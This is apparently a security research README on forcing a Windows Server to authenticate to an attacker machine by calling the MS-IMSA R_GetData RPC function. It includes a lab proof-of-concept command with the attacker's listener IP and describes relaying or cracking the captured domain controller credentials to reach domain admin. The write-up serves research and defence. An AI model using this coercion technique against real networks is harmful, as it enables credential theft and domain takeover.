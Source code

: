 # MS-IMSA - Remote call to R_GetData (opnum 10)

## Summary

 - **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

 - **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`R_GetData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/7f8d396e-6eff-4141-a61c-859262b1e0a7)

 - **Function operation number**: `10`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`R_GetData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/7f8d396e-6eff-4141-a61c-859262b1e0a7) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_GetData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT R_GetData(
   [in] METADATA_HANDLE hMDHandle,
   [unique, in, string] LPCWSTR pszMDPath,
   [in, out] METADATA_RECORD* pmdrMDData,
   [out] DWORD* pdwMDRequiredDataLen,
   [out] IIS_CRYPTO_BLOB** ppDataBlob
 );
```

## References

 - Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

 - Documentation of function `R_GetData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/7f8d396e-6eff-4141-a61c-859262b1e0a7